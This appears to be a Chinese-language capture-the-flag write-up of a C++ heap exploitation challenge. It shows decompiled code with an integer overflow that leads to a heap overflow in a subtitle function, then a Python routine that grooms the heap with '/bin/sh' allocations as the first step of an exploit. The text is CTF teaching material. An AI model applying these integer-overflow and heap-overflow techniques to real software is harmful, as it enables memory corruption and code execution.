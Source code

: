 # 0x00 前言

第一次做C++的pwn，然后做的时候走了点弯路，做完之后发现此题其实并不难。。。所以打算把心路历程记录一下，总结经验以免以后掉进同样的坑。。。

# 0x01 C++逆向

这次C++的struct没弄好，浪费了好多时间，IDA一直不支持C++的类，所以特别蛋疼。。。这次是拿`union`搞的，把所有类放在一个共用体，弄完之后发现可读性极差。。。其实感觉最好还是把父类作为一个成员放在最前面（这里的话只有虚表），然后后面放其他子类的成员。。。

# 0x02 漏洞点

漏洞点在`subtitle_init 0x26D0`函数中

```c
if ( a1->data )
{
    buf = 0;
    dest = 0LL;
    std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"Subtitle Length : ");
    if ( read(0, &buf, 4uLL) <= 0 )
      exit(1);
    if ( a1->length + buf > 0x400 )// integer overflow
      buf = 0x400 - a1->length;
    dest = (void *)operator new[](a1->length + buf);// integer overflow
    if ( !dest )
      exit(1);
    std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"Add Subtitle : ");
    memcpy(dest, a1->data, a1->length);
    if ( read(0, (char *)dest + a1->length, buf) <= 0 )// heap overflow
      exit(1);
    if ( a1->data )
      operator delete[](a1->data);
    a1->data = dest;
}
```

可见，当`a1->length + buf <= 400`，但是`buf`是一个很大的无符号数`0xffffffff`时，存在整形溢出，能过前面`<=400`的检查，也能分配一个正常大小的堆。但是在`read(0, (char *)dest + a1->length, buf)`时，相当于执行了`read(0, (char *)dest + a1->length, 0xffffffff)`，存在堆溢出！

# 0x03 处理凌乱的堆

打开程序，发现bins里面并不是空的，有很多chunks，可能是因为C++的原因吧。这很不方便我们的利用，所以先通过不停地分配clips来把这些bins清空

```python
def clear_heap():
	idx = 0
	for y in xrange(0,15):
		for x in xrange(0x1,0x9):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,20):
		for x in xrange(1,3):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,4):
		for x in xrange(3,4):
			create_video("/bin/sh\x00", x * 0x10)
			idx += 1
	for y in xrange(0,3):
		create_video("/bin/sh\x00", 0x60)
		idx += 1
```